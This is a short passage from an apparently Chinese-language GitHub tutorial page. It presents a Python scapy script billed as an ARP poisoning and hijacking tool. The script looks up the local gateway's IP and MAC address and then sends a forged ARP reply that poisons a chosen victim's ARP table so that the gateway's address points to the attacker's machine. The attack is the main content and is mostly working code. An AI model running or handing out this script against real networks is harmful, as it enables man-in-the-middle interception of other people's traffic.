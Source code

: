 ![./img/victimRetore.png](./img/victimRetore.png)

## 基于 scapy 编写 ARP 投毒劫持工具
还是直接自己干个工具把，就不使用自动化工具了。不是很复杂，把手动实现的自动化就行。

该脚本自动将网段上的所输入的目的终端的ARP表中网关的mac地址毒化为使用此脚本的主机的mac地址。

```python
import sys 
from scapy.all import srp,send,Ether,ARP,conf

def Help():
    print("sys.argv[0] <target's IP> eg:"+sys.argv[0]+"192.168.1.1")
    return 
if len(sys.argv)!=2:
    Help()
    sys.exit(1)

VicIp=sys.argv[1]

gwIp = conf.route.route("0.0.0.0")[2] # get GW's ip
print("Gateway'ip:"+gwIp)

# Get GW's Mac address
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=gwIp)
# send request,get gw's mac address
recved = srp(arpbroadcast, timeout=2)
gw_mac = recved[0][0][1].hwsrc

print("Gateway's Mac Address:"+gw_mac)

arpspoofed=ARP(op=2, psrc=gwIp, pdst=VicIp, hwdst="08:00:27:bd:92:09") # random hwdst
# send 
send(arpspoofed)
```